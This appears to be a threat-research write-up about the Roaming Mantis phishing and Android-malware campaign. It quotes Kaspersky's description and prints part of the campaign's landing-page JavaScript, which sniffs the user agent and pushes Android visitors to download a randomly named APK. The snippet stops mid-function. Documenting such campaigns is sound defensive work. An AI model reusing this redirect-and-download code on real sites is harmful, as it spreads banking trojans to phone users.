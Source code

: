 





































# Roaming Mantis: a new phishing method targets a Japanese MNO

Roaming Mantis is a campaign named by Kaspersky.

> In March 2018, Japanese media reported the hijacking of DNS settings on routers located in Japan, redirecting users to malicious IP addresses. The redirection led to the installation of Trojanized applications named facebook.apk and chrome.apk that contained Android Trojan-Banker.
>  
>  Since we didn’t find a pre-existing name for this malware operation, we decided to assign a new one for future reference. Based on its propagation via smartphones roaming between Wi-Fi networks, potentially carrying and spreading the infection, we decided to call it ‘Roaming Mantis’.
>  
> (source: https://securelist.com/roaming-mantis-uses-dns-hijacking-to-infect-android-smartphones/85178/)

This campaign uses Android malware and also phishing scams.

For example, a Roaming Mantis landing page redirects a user to a phishing website when a victim uses an iOS device.

```javascript=
if ((navigator.language || navigator.browserLanguage).toLowerCase().startsWith("ja")) {

} else {
    var u = navigator.userAgent;
    var isAndroid = u.indexOf('Android') > -1 || u.indexOf('Adr') > -1;
    var isiOS = !!u.match(/\(i[^;]+;( U;)? CPU.+Mac OS X/);
    if (isAndroid) {
        window.alert(getString(0));
        window.location.href = "http://" + location.hostname + "/" + Math.random().toString().substring(2, 10) + ".apk"
    }

    function isPC() {
        var userAgentInfo = navigator.userAgent;
        var Agents = ["Android", "iPhone", "SymbianOS", "Windows Phone", "iPad", "iPod"];
        var flag = true;
        for (var v = 0; v < Agents.length; v++) {
            if (userAgentInfo.indexOf(Agents[v]) > 0) {
                flag = false;
                break;
            }
```